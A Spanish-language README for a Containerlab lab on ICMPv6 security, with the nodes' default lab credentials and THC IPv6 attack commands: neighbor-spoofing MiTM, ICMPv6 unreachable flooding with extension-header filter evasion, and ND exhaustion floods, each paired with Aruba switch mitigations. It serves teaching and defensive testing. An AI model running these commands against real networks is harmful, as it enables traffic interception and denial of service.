 # Laboratorio ICMPv6 Security con Containerlab

La topología creada tiene por objetivo poveer un entorno controlado para el análisis de seguridad del protocolo **ICMPv6**.
## Descripción de los nodos

| Nodo |OS  |
|--|--|
| Router |Nokia SRL Linux 24.10  
| Switch |Aruba AOS-CX 10.14
|PC1 y PC3|Kali Linux con THC IPv6 Tool e IPv6Toolkit 
|PC2 y PC4|Alpine Linux
## Acceso a los nodos
* Router Nokia vía SSH. `ssh admin@clab-icmpv6-srlrouter` password: `NokiaSrl1!`
* Switch Aruba vía SSH. `ssh admin@clab-icmpv6-arubaaccess` password: `admin`
* PCx vía bash. `docker exec -it clab-icmpv6-PCx /bin/bash`
## Ejemplos ataques
### MiTM/DoS vía Neighbor Spoofing (atk6-parasite6). 
>*This is an "ARP spoofer" for IPv6, redirecting all local traffic to your own
system (or nirvana if fake-mac does not exist) by answering falsely to
Neighbor Solitication requests.*  From https://www.kali.org/tools/thc-ipv6/

![Alt text](images/topoipv6filter.png)

* Desde el nodo **srvweb** iniciar el servicio ejecutando el comando `nginx`
* Desde **arubaaccess** verificar la tabla de **IP bindings** ejecutando: `show nd-snooping bindings`
* Desde el nodo **PC1** Kali
  * Habilitar enrutamiento: `sysctl -w net.ipv6.conf.eth1.forwarding=1`
  * Lanzar el ataque ejecutando: `atk6-parasite6 eth1`
* Desde **PC3**
  * Realizar consulta http ejecutando `http http://[2001:db8:d1::50]`
* Desde **arubaaccess** verificar la mitigación del ataque ejecutando: `show nd-snooping statistics`
### **DoS mediante ICMPv6 Flooding** 

>***atk6-flood_unreachable:** Flood the target with ICMPv6 unreachable packets.*
* Desde **PC3**
  *  Lanzar el ataque ejecutando: `atk6-flood_unreach6 -F eth1 fe80::20`
  * Alternativas de evasión a filtrado usando campos de extensión: 
  * Next Header field value 44 (Fragment) `atk6-flood_unreach6 -F eth1 fe80::20`
  * Next Header field value 60 (Destination Options) `atk6-flood_unreach6 -D eth1 fe80::20`
  * Next Header field value 0 (Hop-by-Hop Options) `atk6-flood_unreach6 -H eth1 fe80::20`
* Mitigación: config **ICMPv6 ACL filter**   
>***atk6-ndpexhaust26:** Flood the target /64 network with ICMPv6 TooBig error messages.*
* Desde **PC3**
  *  Lanzar el ataque ejecutando: `atk6-ndpexhaust26 -Tr eth1 2001:db8:70::`
  * Opciones: 
  * -T send ICMPv6 Time-to-live-exeeded
  * -r randomize the source from your /64 prefix
* Mitigación: config **ICMPv6 ACL filter / port access secure client limit**    
